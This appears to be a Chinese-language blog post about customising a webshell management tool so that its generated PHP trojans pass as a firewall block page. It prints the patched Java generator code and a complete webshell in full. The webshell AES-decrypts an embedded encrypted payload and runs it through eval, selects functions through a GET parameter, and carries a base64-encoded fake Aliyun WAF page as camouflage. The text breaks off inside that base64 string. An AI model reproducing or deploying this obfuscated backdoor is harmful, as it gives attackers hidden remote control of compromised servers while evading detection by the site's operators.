

成功连接了

我们看看流量



修改一下代理，bp 抓



并没有我们的 waf，奇怪

估计是因为原模板的原因

搞了半天，发现应该是 if 条件的问题

```
if( count($_REQUEST) || file_get_contents("php://input") ){

}else{
    header('Content-Type:text/html;charset=utf-8');    http_response_code(493);
    echo base64_decode/**/($wNjxUR);
}
```

虽然我是不知道这个 if 条件是干嘛的，但是删除这个 if 后



waf 页面终于出现了，所以我又去修改了一下源码

当然 if 条件的作用可能我没有理解到

```
public String SetPhp(String name, String code) {
    this.key = RandomString.getRString(6);
    this.pretendHtml = "\r
$" + this.key + " = "" + name + "";\r
    header('Content-Type:text/html;charset=utf-8');    http_response_code(" + code + ");\r
    echo base64_decode/**/($" + this.key + ");\r
";
    return this.pretendHtml;
}

```

然后再次构建后我们生成一个木马

```
<?php
error_reporting(0);
class cFile {
    public static function selectFile($filename){
        $sign = 'fc70f4eeba33b088';
        $fileurl = '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';
        $file = openssl_decrypt(cFile::de($fileurl), "AES-128-ECB", $sign,OPENSSL_PKCS1_PADDING);
        $file_error = $$filename;
        @eval($file_error);
        return "filename";
    }
    public static function getPriv() {
        return 'selectFile';
    }
    public static function de($fileurl){
        return base64_decode($fileurl);
    }
}
//$cfile = 'cFile';
$cfile = $_GET['2mppel'];
$error = [$cfile,[$cfile,'getPriv']()];
$error('file');

$ad0PNj = "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9InpoLWNuIj4KCjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgogICAgPG1ldGEgaHR0cC1lcXVpdj0iWC1VQS1Db21wYXRpYmxlIiBjb250ZW50PSJJRT1lZGdlLGNocm9tZT0xIj4KICAgIDxtZXRhIG5hbWU9ImRhdGEtc3BtIiBjb250ZW50PSJhM2MwZSIgLz4KICAgIDx0aXRsZT4KICAgICAgICA0MDUKICAgIDwvdGl0bGU+CiAgICA8c2NyaXB0IHNyYz0iLy9nLmFsaWNkbi5jb20vY29kZS9saWIvcXJjb2RlanMvMS4wLjAvcXJjb2RlLm1pbi5qcyI+PC9zY3JpcHQ+CiAgICA8c3R5bGU+CiAgICAgICAgaHRtbCwKICAgICAgICBib2R5LAogICAgICAgIGRpdiwKICAgICAgICBhLAogICAgICAgIGgyLAogICAgICAgIHAgewogICAgICAgICAgICBtYXJnaW46IDA7CiAgICAgICAgICAgIHBhZGRpbmc6IDA7CiAgICAgICAgICAgIGZvbnQtZmFtaWx5OiDlvq7ova/pm4Xpu5E7CiAgICAgICAgfQoKICAgICAgICBhIHsKICAgICAgICAgICAgdGV4dC1kZWNvcmF0aW9uOiBub25lOwogICAgICAgICAgICBjb2xvcjogIzNiNmVhMzsKICAgICAgICB9CgogICAgICAgIC5jb250YWluZXIgewogICAgICAgICAgICB3aWR0aDogMTAwMHB4OwogICAgICAgICAgICBtYXJnaW46IGF1dG87CiAgICAgICAgICAgIGNvbG9yOiAjNjk2OTY5OwogICAgICAgIH0KCiAgICAgICAgLmhlYWRlciB7CiAgICAgICAgICAgIHBhZGRpbmc6IDUwcHggMDsKICAgICAgICB9CgogICAgICAgIC5oZWFkZXIgLm1lc3NhZ2UgewogICAgICAgICAgICBoZWlnaHQ6IDM2cHg7CiAgICAgICAgICAgIHBhZGRpbmctbGVmdDogMTIwcHg7CiAgICAgICAgICAgIGJhY2tncm91bmQ6IHVybChodHRwczovL2Vycm9ycy5hbGl5dW4uY29tL2ltYWdlcy9UQjFUcGFtSHBYWFhYYUpYWFhYZUI3bllWWFgtMTA0LTE2Mi5wbmcpIG5vLXJlcGVhdCAwIC0xMjhweDsKICAgICAgICAgICAgbGluZS1oZWlnaHQ6IDM2cHg7CiAgICAgICAgfQoKICAgICAgICAubWFpbiB7CiAgICAgICAgICAgIHBhZGRpbmc6IDUwcHggMDsKICAgICAgICAgICAgYmFja2dyb3VuZDoKICAgICAgICAgICAgICAgICNmNGY1Zjc7CiAgICAgICAgfQoKICAgICAgICAubWFpbiBpbWcgewogICAgICAgICAgICBwb3NpdGlvbjogcmVsYXRpdmU7CiAgICAgICAgICAgIGxlZnQ6IDEyMHB4OwogICAgICAgIH0KCiAgICAgICAgLmZvb3RlciB7CiAgICAgICAgICAgIG1hcmdpbi10b3A6CiAgICAgICAgICAgICAgICAzMHB4OwogICAgICAgICAgICB0ZXh0LWFsaWduOiByaWdodDsKICAgICAgICB9CgogICAgICAgIC5mb290ZXIgYSB7CiAgICAgICAgICAgIHBhZGRpbmc6IDhweCAzMHB4OwogICAgICAgICAgICBib3JkZXItcmFkaXVzOgogICAgICAgICAgICAgICAgMTBweDsKICAgICAgICAgICAgYm9yZGVyOiAxcHggc29saWQgIzRiYWJlYzsKICAgICAgICB9CgogICAgICAgIC5mb290ZXIgYTpob3ZlciB7CiAgICAgICAgICAgIG9wYWNpdHk6IC44OwogICAgICAgIH0KCiAgICAgICAgLmFsZXJ0LXNoYWRvdyB7CiAgICAgICAgICAgIGRpc3BsYXk6IG5vbmU7CiAgICAgICAgICAgIHBvc2l0aW9uOiBhYnNvbHV0ZTsKICAgICAgICAgICAgdG9wOiAwOwogICAgICAgICAgICBsZWZ0OiAwOwogICAgICAgICAgICB3aWR0aDogMTAwJTsKICAgICAgICAgICAgaGVpZ2h0OgogICAgICAgICAgICAgICAgMTAwJTsKICAgICAgICAgICAgYmFja2dyb3VuZDogIzk5OTsKICAgICAgICAgICAgb3BhY2l0eTogLjU7CiAgICAgICAgfQoKICAgICAgICAuYWxlcnQgewogICAgICAgICAgICBkaXNwbGF5OiBub25lOwogICAgICAgICAgICBwb3NpdGlvbjoKICAgICAgICAgICAgICAgIGFic29sdXRlOwogICAgICAgICAgICB0b3A6IDIwMHB4OwogICAgICAgICAgICBsZWZ0OiA1MCU7CiAgICAgICAgICAgIHdpZHRoOiA2MDBweDsKICAgICAgICAgICAgbWFyZ2luLWxlZnQ6IC0zMDBweDsKICAgICAgICAgICAgcGFkZGluZy1ib3R0b206CiAgICAgICAgICAgICAgICAyNXB4OwogICAgICAgICAgICBib3JkZXI6IDFweCBzb2xpZCAjZGRkOwogICAgICAgICAgICBib3gtc2hhZG93OiAwIDJweCAycHggMXB4IHJnYmEoMCwgMCwgMCwgLjEpOwogICAgICAgICAgICBiYWNrZ3JvdW5kOiAjZmZmOwogICAgICAgICAgICBmb250LXNpemU6IDE0cHg7CiAgICAgICAgICAgIGNvbG9yOiAjNjk2OTY5OwogICAgICAgIH0KCiAgICAgICAgLmFsZXJ0IGgyIHsKICAgICAgICAgICAgbWFyZ2luOgogICAgICAgICAgICAgICAgMCAycHg7CiAgICAgICAgICAgIHBhZGRpbmc6IDEwcHggMTVweCA1cHggMTVweDsKICAgICAgICAgICAgZm9udC1zaXplOiAxNHB4OwogICAgICAgICAgICBmb250LXdlaWdodDogbm9ybWFsOwogICAgICAgICAgICBib3JkZXItYm90dG9tOiAxcHggc29saWQgI2RkZDsKICAgICAgICB9CgogICAgICAgIC5hbGVydCBhIHsKICAgICAgICAgICAgZGlzcGxheTogYmxvY2s7CiAgICAgICAgICAgIHBvc2l0aW9uOiBhYnNvbHV0ZTsKICAgICAgICAgICAgcmlnaHQ6IDEwcHg7CiAgICAgICAgICAgIHRvcDogOHB4OwogICAgICAgICAgICB3aWR0aDogMzBweDsKICAgICAgICAgICAgaGVpZ2h0OiAyMHB4OwogICAgICAgICAgICB0ZXh0LWFsaWduOiBjZW50ZXI7CiAgICAgICAgfQoKICAgICAgICAuYWxlcnQgcCB7CiAgICAgICAgICAgIHBhZGRpbmc6IDIwcHggMTVweDsKICAgICAgICB9CgogICAgICAgICNmZWVkYmFjay1jb250YWluZXIgewogICAgICAgICAgICB3aWR0aDogMTEwcHg7CiAgICAgICAgICAgIG1hcmdpbjogYXV0bzsKICAgICAgICAgICAgbWFyZ2luLXRvcDogMTIwcHg7CiAgICAgICAgICAgIHRleHQtYWxpZ246IGNlbnRlcjsKICAgICAgICB9CgogICAgICAgICNxcmNvZGUgewogICAgICAgICAgICBtYXJnaW46IDAgMTVweCA1cHggMTVweDsKICAgICAgICB9CgogICAgICAgICNmZWVkYmFjayBhIHsKICAgICAgICAgICAgY29sb3I6ICM5OTk7CiAgICAgICAgICAgIGZvbnQtc2l6ZTogMTJweDsKICAgICAgICAgICAgbWFyZ2luLXRvcDogNXB4OwogICAgICAgIH0KICAgIDwvc3R5bGU+CjwvaGVhZD4KCjxib2R5IGRhdGEtc3BtPSI3NjYzMzU0Ij4KICAgIDxzY3JpcHQ+CiAgICAgICAgd2l0aCAoZG9jdW1lbnQpIHdpdGggKGJvZHkpIHdpdGggKGluc2VydEJlZm9yZShjcmVhdGVFbGVtZW50KCJzY3JpcHQiKSwgZmlyc3RDaGlsZCkpIHNldEF0dHJpYnV0ZSgiZXhwYXJhbXMiLCAiY2F0ZWdvcnk9JnVzZXJpZD02ODUzMDgyOTUmYXBsdXMmdWRwaWQ9VldlVU9jZVFKZEtqJiZ5dW5pZD0mZTkzYjRlM2U3NWUwNSZ0cmlkPTY1MjViNzk2MTU4MzkyMDYwOTQwMDM5MzhlJmFzaWQ9QVlmNTJDamh0V2hlK2FmK0hRQUFBQUNXQS9TSW5PM1FMdz09IiwgaWQgPSAidGItYmVhY29uLWFwbHVzIiwgc3JjID0gKGxvY2F0aW9uID4gImh0dHBzIiA/ICIvL2ciIDogIi8vZyIpICsgIi5hbGljZG4uY29tL2FsaWxvZy9tbG9nL2FwbHVzX3YyLmpzIikKICAgIDwvc2NyaXB0PgogICAgPHNjcmlwdD4KICAgICAgICAvLwogICAgICAgIHZhciBpMThuT2JqZWN0ID0gewogICAgICAgICAgICAiemgtY24iOiB7CiAgICAgICAgICAgICAgICAibWVzc2FnZSI6ICLlvojmirHmrYnvvIznlLHkuo7mgqjorr/pl67nmoRVUkzmnInlj6/og73lr7nnvZHnq5npgKDmiJDlronlhajlqIHog4HvvIzmgqjnmoTorr/pl67ooqvpmLvmlq3jgIIiLAogICAgICAgICAgICAgICAgImJnSW1nIjogImh0dHBzOi8vZXJyb3JzLmFsaXl1bi5jb20vaW1hZ2VzL1RCMTVRR2FIcFhYWFhYT2FYWFhYaWEzOVhYWC02NjAtMTE3LnBuZyIsCiAgICAgICAgICAgICAgICAicmVwb3J0IjogIuivr+aKpeWPjemmiCIsCiAgICAgICAgICAgIH0sCiAgICAgICAgICAgICJlbi11cyI6IHsKICAgICAgICAgICAgICAgICJtZXNzYWdlIjogIlNvcnJ5LCB3ZSBoYXZlIGRldGVjdGVkIG1hbGljaW91cyB0cmFmZmljIGZyb20geW91ciBuZXR3b3JrLCBwbGVhc2UgdHJ5IGFnYWluIGxhdGVyLiIsCiAgICAgICAgICAgICAgICAiYmdJbWciOiAiaHR0cHM6Ly9pbWcuYWxpY2RuLmNvbS90ZnMvVEIxQURBT0lGenFLMVJqU1pTZ1hYY3BBVlhhLTEzMjAtMjM0LmpwZyIsCiAgICAgICAgICAgICAgICAicmVwb3J0IjogIlJlcG9ydCIsCiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICAgICAgdmFyIGkxOG4gPSBpMThuT2JqZWN0WyJlbi11cyJdOwogICAgICAgIGlmIChuYXZpZ2F0b3IubGFuZ3VhZ2UuaW5kZXhPZigiemgiKSA+PSAwKSB7CiAgICAgICAgICAgIGkxOG4gPSBpMThuT2JqZWN0WyJ6aC1jbiJdOwogICAgICAgIH0KCiAgICA8L3NjcmlwdD4KCiAgICA8ZGl2IGRhdGEtc3BtPSIxOTk4NDEwNTM4Ij4KICAgICAgICA8ZGl2IGNsYXNzPSJoZWFkZXIiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgICAgICAgICAgICAgPGRpdiBjbGFzcz0ibWVzc2FnZSI+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD5kb2N1bWVudC53cml0ZShpMThuLm1lc3NhZ2UpPC9zY3JpcHQ+CiAgICAgICAgICAgICAgICA8L2Rpdj4KICAgICAgICAgICAgPC9kaXY+CiAgICAgICAgPC9kaXY+CiAgICAgICAgPGRpdiBjbGFzcz0ibWFpbiI+CiAgICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+CiAgICAgICAgICAgICAgICA8c2NyaXB0PmRvY3VtZW50LndyaXRlKCc8aW1nIHdpZHRoPSI2NjAiIGhlaWdodD0iMTE3IiBzcmM9IicgKyBpMThuLmJnSW1nICsgJyIvPicpPC9zY3JpcHQ+CgogICAgICAgICAgICA8L2Rpdj4KICAgICAgICA8L2Rpdj4KICAgICAgICA8ZGl2IGNsYXNzPSJmb290ZXIiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgICAgICAgICAgICAgPHNwYW4gc3R5bGU9J2Rpc3BsYXk6bm9uZSc+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD4KICAgICAgICAgICAgICAgICAgICAgICAgZnVuY3Rpb24gZ2V0UXVlcnlTdHJpbmcodXJsLCBuYW1lKSB7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICB2YXIgcmVnID0gbmV3IFJlZ0V4cCgnKF58JiknICsgbmFtZSArICc9KFteJl0qKSgmfCQpJyk7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICB2YXIgciA9IHVybC5zdWJzdHIoMSkubWF0Y2gocmVnKTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIGlmIChyICE9PSBudWxsKSByZXR1cm4gdW5lc2NhcGUoclsyXSk7IHJldHVybiBudWxsOwogICAgICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgICAgIHZhciBfX3V1aWRfX18gPSBnZXRRdWVyeVN0cmluZyhsb2NhdGlvbi5ocmVmLCAidXVpZCIpCiAgICAgICAgICAgICAgICAgICAgPC9zY3JpcHQ+CiAgICAgICAgICAgICAgICA8L3NwYW4+CiAgICAgICAgICAgICAgICA8YSB0YXJnZXQ9Il9ibGFuayIgaWQ9InJlcG9ydCIgaHJlZj0iamF2YXNjcmlwdDo7IiBkYXRhLXNwbS1jbGljaz0iZ29zdHI9L3dhZi4xMjMuMTIzO2xvY2FpZD1kMDAxOyI+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD5kb2N1bWVudC53cml0ZShpMThuLnJlcG9ydCk8L3NjcmlwdD4KICAgICAgICAgICAgICAgIDwvYT4KICAgICAgICAgICAgPC9kaXY+CiAgICAgICAgPC9kaXY+CiAgICA8L2Rpdj4KICAgIDxkaXYgaWQ9ImFsZXJ0U2hhZG93IiBjbGFzcz0iYWxlcnQtc2hhZG93Ij4KICAgIDwvZGl2PgogICAgPGRpdiBpZD0iYWxlcnRDb250YWluZXIiIGNsYXNzPSJhbGVydCI+CiAgICAgICAgPGgyPgogICAgICAgICAgICDmj5DnpLrvvJoKICAgICAgICAgICAgPGEgaHJlZj0iamF2YXNjcmlwdDo7IiB0aXRsZT0i5YWz6ZetIiBpZD0iY2xvc2VBbGVydCI+CiAgICAgICAgICAgICAgICBYCiAgICAgICAgICAgIDwvYT4KICAgICAgICA8L2gyPgogICAgICAgIDxwPgogICAgICAgICAgICDmhJ/osKLmgqjnmoTlj43ppojvvIzlupTnlKjpmLLngavlopnkvJrlsL3lv6vov5vooYzliIbmnpDlkoznoa7orqTjgIIKICAgICAgICA8L3A+CiAgICA8L2Rpdj4KICAgIDxkaXYgaWQ9ImZlZWRiYWNrLWNvbnRhaW5lciI+CiAgICAgICAgPGRpdiBpZD0icXJjb2RlIj48L2Rpdj4KICAgICAgICA8ZGl2IGlkPSJmZWVkYmFjayI+PC9kaXY+CiAgICA8L2Rpdj4KICAgIDxzY3JpcHQ+CiAgICAgICAgZnVuY3Rpb24gc2hvdygpIHsKICAgICAgICAgICAgdmFyIGcgPSBmdW5jdGlvbiAoZWxlKSB7CiAgICAgICAgICAgICAgICByZXR1cm4gZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoZWxlKTsKICAgICAgICAgICAgfTsKICAgICAgICAgICAgdmFyIHJlcG9ydEhhbmRsZSA9IGcoJ3JlcG9ydCcpOwogICAgICAgICAgICB2YXIgYWxlcnRTaGFkb3cgPSBnKCdhbGVydFNoYWRvdycpOwogICAgICAgICAgICB2YXIgYWxlcnRDb250YWluZXIgPSBnKCdhbGVydENvbnRhaW5lcicpOwogICAgICAgICAgICB2YXIgY2xvc2VBbGVydCA9IGcoJ2Nsb3NlQWxlcnQnKTsKICAgICAgICAgICAgdmFyIG93biA9IHt9OwogICAgICAgICAgICBvd24ucmVwb3J0ID0gZnVuY3Rpb24gKCkgeyAKICAgICAgICAgICAgICAgIG93bi5hbGVydCgpOwogICAgICAgICAgICB9OyBvd24uYWxlcnQgPSBmdW5jdGlvbiAoKSB7IGFsZXJ0U2hhZG93LnN0eWxlLmRpc3BsYXkgPSAnYmxvY2snOyBhbGVydENvbnRhaW5lci5zdHlsZS5kaXNwbGF5ID0gJ2Jsb2NrJzsgfTsgb3duLmNsb3NlID0gZnVuY3Rpb24gKCkgeyBhbGVydFNoYWRvdy5zdHlsZS5kaXNwbGF5ID0gJ25vbmUnOyBhbGVydENvbnRhaW5lci5zdHlsZS5kaXNwbGF5ID0gJ25vbmUnOyB9OwogICAgICAgIH07CgogICAgICAgIHZhciB1dWlkID0gbG9jYXRpb24uaHJlZi5tYXRjaCgvdXVpZD0oW14mXSspLyk7CiAgICAgICAgdXVpZCA9IHV1aWQgJiYgZW5jb2RlVVJJQ29tcG9uZW50KHV1aWRbMV0pOwogICAgICAgIHZhciB1cmxRckNvZGUgPSBsb2NhdGlvbi5ocmVmLm1hdGNoKC9xcmNvZGU9KFteJl0rKS8pOwogICAgICAgIHVybFFyQ29kZSA9IHVybFFyQ29kZSAmJiBkZWNvZGVVUklDb21wb25lbnQodXJsUXJDb2RlWzFdKTsKICAgICAgICBpZiAodXVpZCB8fCB1cmxRckNvZGUpIHsKICAgICAgICAgICAgdmFyIHFyY29kZSA9IG5ldyBRUkNvZGUoZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoInFyY29kZSIpLCB7CiAgICAgICAgICAgICAgICB0ZXh0OiB1cmxRckNvZGUgfHwgdXVpZCwKICAgICAgICAgICAgICAgIHdpZHRoOiA4MCwKICAgICAgICAgICAgICAgIGhlaWdodDogODAsCiAgICAgICAgICAgICAgICBjb2xvckRhcms6ICIjOTk5IiwKICAgICAgICAgICAgfSk7CiAgICAgICAgICAgIHZhciBmZWVkYmFja0xpbmsgPSBnZXRGZWVkYmFja0xpbmsoKTsKICAgICAgICAgICAgZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoImZlZWRiYWNrIikuaW5uZXJIVE1MID0gZmVlZGJhY2tMaW5rOwogICAgICAgIH0KICAgICAgICBmdW5jdGlvbiBnZXRGZWVkYmFja0xpbmsoKSB7CiAgICAgICAgICAgIHZhciB1cmxPcmlnaW47CiAgICAgICAgICAgIHVybE9yaWdpbiA9IGxvY2F0aW9uLmhyZWYubWF0Y2goL29yaWdpbj0oW14mXSspLyk7CiAgICAgICAgICAgIHVybE9yaWdpbiA9IHVybE9yaWdpbiAmJiBkZWNvZGVVUklDb21wb25lbnQodXJsT3JpZ2luWzFdKS5zcGxpdCgiPyIpWzBdOwogICAgICAgICAgICBpZiAodX